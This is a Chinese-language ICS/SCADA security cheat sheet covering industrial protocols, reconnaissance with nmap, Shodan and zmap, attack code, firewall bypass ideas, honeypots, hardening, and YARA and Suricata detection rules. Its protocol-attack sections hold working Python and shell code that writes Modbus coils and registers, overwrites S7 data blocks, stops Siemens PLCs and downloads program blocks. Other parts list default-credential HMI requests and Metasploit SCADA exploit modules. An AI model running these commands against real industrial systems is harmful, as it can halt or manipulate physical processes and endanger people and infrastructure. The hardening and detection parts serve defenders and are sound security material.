

# 工控安全（ICS/SCADA）

> 从PLC到DCS，系统化掌握工业控制系统安全

---

## 一、工控系统基础

### 1.1 工控系统架构



### 1.2 Purdue模型

| 层级 | 名称 | 设备 | 协议 |
|:----|:-----|:-----|:-----|
| Level 4 | 企业层 | ERP/服务器/工作站 | HTTP/SQL |
| Level 3 | 管理层 | SCADA/HMI/历史库 | OPC/ODBC |
| Level 2 | 控制层 | PLC/DCS/RTU | Modbus/Profibus |
| Level 1 | 设备层 | 传感器/执行器 | 4-20mA/IO |
| Level 0 | 物理层 | 电机/阀门/泵 | 物理信号 |

### 1.3 工控协议

| 协议 | 传输 | 端口 | 用途 |
|:-----|:-----|:-----|:-----|
| Modbus TCP | TCP | 502 | PLC通信 |
| Modbus RTU | 串口 | - | 串行通信 |
| Profinet | TCP/UDP | 34962-4 | Siemens |
| Ethernet/IP | TCP/UDP | 44818 | Rockwell |
| S7comm | TCP | 102 | Siemens S7 |
| DNP3 | TCP/UDP | 20000 | 电网 |
| IEC 60870 | TCP | 2404 | 电力 |
| IEC 61850 | TCP | 102 | 变电站 |
| OPC DA | COM/DCOM | 135 | 数据访问 |
| OPC UA | TCP | 4840 | 统一架构 |
| BACnet | UDP | 47808 | 楼宇自动化 |

---

## 二、侦察与发现

### 2.1 工控设备扫描

```bash
# Nmap工控脚本
nmap -sV -p 502 --script modbus-discover 192.168.1.0/24
nmap -sV -p 102 --script s7-info 192.168.1.0/24
nmap -sV -p 44818 --script enip-info 192.168.1.0/24
nmap -sV -p 20000 --script dnp3-info 192.168.1.0/24
nmap -sV -p 47808 --script bacnet-info 192.168.1.0/24

# 工控网络扫描
nmap --script "default or *ics*" 192.168.1.0/24

# Shodan ICS搜索
shodan search "port:502" --limit 100
shodan search "Siemens" "SCADA"
shodan search "Modbus"
shodan search "country:CN port:502"
```

### 2.2 专用扫描工具

```bash
# PLCScan
plcscan 192.168.1.0/24

# Modbus工具
# modbus-cli
modbus scan 192.168.1.0/24
modbus read -p 502 192.168.1.1 1 10

# s7scan
python3 s7scan.py 192.168.1.0/24

# GRASSMARLIN
# 美国国家安全局(NSA)工控网络映射工具
# 图形化拓扑发现

# Shodan命令行
pip install shodan
shodan init API_KEY
shodan search "port:502,102,44818" --fields ip_str,port,org
```

### 2.3 被动侦察

```bash
# 网络流量分析
tcpdump -i eth0 port 502 -w modbus_capture.pcap
tcpdump -i eth0 port 102 -w s7_capture.pcap

# Wireshark分析
# 过滤: modbus
# 过滤: s7comm
# 过滤: enip
# 过滤: dnp3

# 识别设备类型
# 通过MAC地址前缀
# 通过协议特征

# 识别PLC品牌
# Siemens: S7comm, ISO over TCP
# Rockwell: CIP, Ethernet/IP
# Schneider: Modbus, UMAS
# Mitsubishi: MELSEC
# Omron: FINS
```

---

## 三、协议攻击

### 3.1 Modbus攻击

```python
# Modbus读取
from pymodbus.client import ModbusTcpClient

client = ModbusTcpClient('192.168.1.1')
client.connect()

# 读取线圈
coils = client.read_coils(0, 10)
print(coils.bits)

# 读取保持寄存器
registers = client.read_holding_registers(0, 10)
print(registers.registers)

# 读取输入寄存器
inputs = client.read_input_registers(0, 10)

# 读取离散量
discrete = client.read_discrete_inputs(0, 10)

# Modbus写入
# 写单个线圈
client.write_coil(0, True)

# 写多个线圈
client.write_coils(0, [True, False, True])

# 写单个寄存器
client.write_register(0, 100)

# 写多个寄存器
client.write_registers(0, [100, 200, 300])
```

```bash
# Modbus攻击
# 读取所有寄存器
modbus read -r 0 10000 192.168.1.1

# 写入寄存器 (危险!)
modbus write -r 0 0 192.168.1.1  # 停止设备

# Modbus功能码
# 01: Read Coils
# 02: Read Discrete Inputs
# 03: Read Holding Registers
# 04: Read Input Registers
# 05: Write Single Coil
# 06: Write Single Register
# 15: Write Multiple Coils
# 16: Write Multiple Registers

# Modbus功能码攻击
# 使用非法功能码测试
# 使用广播地址(0x00)
```

### 3.2 S7comm攻击

```python
# Snap7攻击
import snap7

# 连接PLC
plc = snap7.client.Client()
plc.connect('192.168.1.1', 0, 1)

# 读取DB块
data = plc.db_read(1, 0, 100)
print(data)

# 写入DB块
plc.db_write(1, 0, b'\x00' * 100)

# 读取系统信息
info = plc.get_cpu_info()
print(f"Module Type: {info.ModuleTypeName}")
print(f"Serial: {info.SerialNumber}")
print(f"AS Name: {info.ASName}")

# 读取时间
time = plc.get_cpu_time()

# PLC停止 (危险)
plc.plc_stop()

# PLC启动
plc.plc_start()

# 上传/下载块
data = plc.upload(0x01, 'OB1')
plc.download(data, 0x01, 'OB1')

# 读取保护级别
protection = plc.get_protection()
```

### 3.3 Ethernet/IP攻击

```bash
# Ethernet/IP (CIP) 攻击
# 使用 ciprpclient (pycomm)
python3 << 'EOF'
from pycomm.cip.cip_driver import CIPDriver

driver = CIPDriver()
driver.connect('192.168.1.1', 44818)

# 读取tag
value = driver.read_tag(['Program:MainProgram.x'])
print(value)

# 写入tag
driver.write_tag('Program:MainProgram.speed', 100)

# 获取设备信息
driver.get_device_info()
driver.disconnect()
EOF

# 使用nmap脚本
nmap -p 44818 --script enip-enumerate 192.168.1.1
```

---

## 四、SCADA安全

### 4.1 HMI攻击

```bash
# HMI常见漏洞
# - 硬编码凭证
# - 未授权访问
# - 命令注入
# - 缓冲区溢出
# - Web接口漏洞

# HMI Web接口测试
curl http://192.168.1.10:80/
curl http://192.168.1.10:80/login
curl -u admin:admin http://192.168.1.10:80/
curl -X POST -d "cmd=shutdown" http://192.168.1.10:80/api/command
```

### 4.2 历史库攻击

```bash
# 历史数据库(Historian)
# 常见: OSIsoft PI, Wonderware, GE Proficy

# PI Server (端口5450)
nmap -p 5450 192.168.1.0/24

# PI API访问
curl http://192.168.1.20/piwebapi/
curl -u piadmin:password http://192.168.1.20/piwebapi/points
```

---

## 五、已知漏洞利用

### 5.1 重要CVE

| CVE | 产品 | 影响 | CVSS |
|:----|:-----|:-----|:-----|
| CVE-2021-22681 | Rockwell PLC | RCE | 9.8 |
| CVE-2020-15368 | ICS漏洞利用框架 | 子网设备控制 | - |
| CVE-2019-10945 | Siemens S7-1200 | DoS | 7.5 |
| CVE-2018-17929 | Delta Industrial | RCE | 9.8 |
| CVE-2018-19654 | Advantech WebAccess | SQL注入 | 8.8 |
| CVE-2017-7921 | Hikvision相机 | 后门 | 9.8 |
| CVE-2017-16744 | Schneider PLC | RCE | 9.8 |
| CVE-2015-5374 | Siemens S7-1500 | 认证绕过 | 8.6 |
| CVE-2015-0983 | ABB SCADA | 凭据泄露 | 7.5 |

### 5.2 Metasploit模块

```bash
# Metasploit工控模块
msfconsole
msf6 > search type:exploit platform:scada
msf6 > search type:exploit platform:plc

# Siemens模块
use auxiliary/scanner/scada/siemens_s7_processor_type
use auxiliary/admin/scada/siemens_s7_400_sim-eoc
use exploit/multi/scada/siemens_s7_300_400_cpu_command

# Modbus模块
use auxiliary/scanner/scada/modbusdetect
use auxiliary/scanner/scada/modbus_find_holding_registers
use auxiliary/scanner/scada/modbus_bruteforce

# Rockwell模块
use auxiliary/scanner/scada/rockwell_automation
use auxiliary/admin/scada/rockwell_micrologik

# 通用模块
use post/scada/plc_scan
```

---

## 六、工控网络隔离绕过

### 6.1 物理/逻辑绕过

```bash
# DMZ绕过
# 1. 利用OPC通信
# 2. 利用数据库同步
# 3. 利用远程桌面
# 4. 利用打印机协议
# 5. 利用跳板主机

# 串口网关绕过
# 串口转以太网设备
# - Moxa NPort
# - Digi One SP
# - Serial Device Server

# 扫描串口服务器
nmap -p 4000-5000 192.168.1.0/24
nmap -sV -p 4000 192.168.1.1
```

### 6.2 防火墙绕过

```bash
# 利用允许的协议
# - Modbus TCP (502)
# - OPC (135/DCOM)
# - HTTP/HTTPS (80/443)
# - SQL (1433)

# 利用管理通道
# - SSH (22)
# - RDP (3389)
# - VNC (5900)

# 利用OT协议隧道
# 使用Modbus隧道其他协议
# 使用OPC数据通道
```

---

## 七、工控蜜罐

### 7.1 蜜罐部署

```bash
# Conpot (工控蜜罐)
pip install conpot
conpot --template default

# 自定义模板
# conpot.cfg
[template]
name = siemens_s7_200
[protocols]
modbus = true
s7comm = true
http = true

# 启动
conpot --template ./siemens_s7_200/

# 查看日志
tail -f conpot.log
```

### 7.2 其他工具

| 工具 | 类型 | 特点 |
|:-----|:-----|:-----|
| Conpot | 低交互 | 多协议支持 |
| GasPot | 低交互 | 加油站模拟 |
| SCADA Honeynet | 高交互 | 真实设备 |
| GridPot | 电力 | 电网模拟 |
| Compot | 中交互 | 混合模式 |

---

## 八、安全加固

### 8.1 基本加固

```yaml
网络隔离:
  - 防火墙规则最小化
  - VLAN隔离不同层级
  - 单向网关(Data Diode)
  - DMZ部署OPC/历史库

访问控制:
  - 默认密码修改
  - 多因素认证
  - 角色权限分离
  - 会话超时锁定

系统加固:
  - 禁用未使用服务
  - 关闭调试接口
  - 日志审计开启
  - 系统补丁管理

通信安全:
  - TLS加密(OPC UA)
  - 消息认证
  - 完整性校验
  - 重放防护
```

### 8.2 安全配置

```bash
# Siemens PLC保护级别
# 通过TIA Portal设置
# 1 - 仅读取
# 2 - 读+写(需密码)
# 3 - 完全保护

# Modbus安全
# 禁用未使用的功能码
# 设置访问白名单
# 限制写入访问

# Rockwell安全
# 启用CIP Security
# 设置用户权限
# 审计跟踪
```

### 8.3 工控防火墙

```bash
# 使用Tofino/MGuard等工控防火墙
# 白名单规则
# Modbus功能码过滤
# S7功能限制
# CIP对象控制

# iptables Modbus过滤
iptables -A FORWARD -p tcp --dport 502 -m string \
    --algo bm --hex-string "|0000 0000 0006|" -j DROP
# 阻止广播Modbus写入
```

---

## 九、应急响应

### 9.1 检测规则

```yacas
# YARA规则 - 工控恶意软件
rule Industroyer
{
    meta:
        description = "Industroyer (CRASHOVERRIDE) detection"
    
    strings:
        $iec101 = "IEC-101-104"
        $iec104 = "IEC_104"
        $modbus = "MODBUS"
        $dnp3 = "DNP3"
        $opc = "OPC_DA"
    
    condition:
        2 of them
}

rule TRITON
{
    meta:
        description = "TRITON/TRISTAR malware"
    
    strings:
        $tricon = "Tricon"
        $tsaa = "TsBase.cpp"
        $cmd = "MainCpu"
    
    condition:
        2 of them
}

# Suricata IDS规则
alert tcp $HOME_NET any -> $EXTERNAL_NET 502 (
    msg:"Modbus from OT to IT - Suspicious";
    flow:to_server;
    classtype:bad-unknown;
    sid:1000001;
)
```

### 9.2 日志收集

```bash
# Windows事件日志
wevtutil epl "Application" app.evtx /q:"*[System[Provider[@Name='Siemens']]]"

# Syslog收集
# 配置PLC/RTU发送syslog
# 使用SIEM集中分析

# 网络流量日志
# 使用Zeek分析工控协议
zeek -r capture.pcap "ics.zeek"
```

---

## 十、工具总结

### 10.1 扫描工具

| 工具 | 用途 | 安装 |
|:-----|:-----|:------|
| PLCScan | PLC设备发现 | pip install plcscan |
| Modbus-cli | Modbus探测 | pip install modbus-cli |
| s7scan | Siemens扫描 | github.com/binaryloop/s7scan |
| GRASSMARLIN | 网络映射 | github.com/iadgov/GRASSMARLIN |
| Nmap | 通用扫描 | apt install nmap |

### 10.2 攻击工具

| 工具 | 用途 | 安装 |
|:-----|:-----|:------|
| ISF | 工控框架 | github.com/dark-lbp/isf |
| Metasploit | 通用框架 | apt install metasploit |
| SCADA StrangeLove | 漏洞利用 | github.com/scriptingxss/SCADA-StrangeLove |
| MiniCPS | 模拟测试 | github.com/tjcw/MiniCPS |

---

## 十一、法规标准

| 标准 | 组织 | 内容 |
|:-----|:-----|:-----|
| IEC 62443 | ISA | 工控网络安全标准 |
| NIST SP 800-82 | NIST | 工控安全指南 |
| NERC CIP | NERC | 电力系统安全 |
| ISO 27001 | ISO | 信息安全管理 |
| GB/T 32919 | 中国 | 工控安全要求 |

---

## 十二、速查总表

### 12.1 端口速查

| 协议 | 端口 | 常见设备 |
|:-----|:-----|:---------|
| Modbus TCP | 502 | Schneider, ABB |
| S7comm | 102 | Siemens |
| Ethernet/IP | 44818 | Rockwell |
| DNP3 | 20000 | 电网设备 |
| IEC 104 | 2404 | 电力自动化 |
| OPC DA | 135 | OPC服务器 |
| OPC UA | 4840 | 统一架构 |
| BACnet | 47808 | 楼宇控制 |
| Profinet | 34962-4 | Siemens |
| Melsec | 5006 | Mitsubishi |
| FINS | 9600 | Omron |

### 12.2 命令速查

```bash
# Modbus扫描
nmap -p 502 --script modbus-discover 192.168.1.0/24
modbus scan 192.168.1.0/24

# Siemens S7
nmap -p 102 --script s7-info 192.168.1.1

# Rockwell
nmap -p 44818 --script enip-enumerate 192.168.1.1

# DNP3
nmap -p 20000 --script dnp3-info 192.168.1.1

# Zmap批量
zmap -p 502 -o results.csv 192.168.0.0/16

# Shodan
shodan search "port:502 country:CN"
```

---

> **参考资源**
>
> - ICS-CERT Advisories
> - SANS ICS Security
> - Dragos Threat Intelligence
> - MITRE ATT&CK for ICS
> - NIST SP 800-82
> - IEC 62443 Standard
